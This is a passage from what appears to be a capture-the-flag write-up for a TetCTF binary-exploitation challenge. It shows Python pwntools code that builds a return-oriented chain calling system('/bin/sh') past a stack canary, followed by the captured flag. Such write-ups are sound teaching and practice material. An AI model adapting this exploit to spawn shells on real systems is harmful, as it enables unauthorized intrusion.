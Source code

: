 ```python
with open('data/1MB', 'rb') as f:
	datas = f.read()

p.sendlineafter(b'choice: ', b'2')
p.recvuntil(b'read: ')
p.sendline(b'4')

pop_rdi = libc.address + 0x000000000002a3e5
ret = libc.address + 0x0000000000029cd6
payload = flat(
	canary,
	canary,				# Fake saved rbp
	ret,
	pop_rdi,
	next(libc.search(b'/bin/sh')),
	libc.sym['system']
	)[::-1]

offset = 0x108 + len(payload)
for i in range(len(payload)):
	for size in findbyte(p8(payload[i]), datas, offset - i):
		datas = datas[size:]
		p.sendline(f'{size}'.encode())
		p.recvuntil(b'\nHow many bytes to read?', drop=True)
p.sendline('-1'.encode())
```

# 3. Get flag

![get-flag.png](get-flag.png)

Flag is `TetCTF{w4rm_uP_ch4lL3ng3__g0Od_g4m3!}`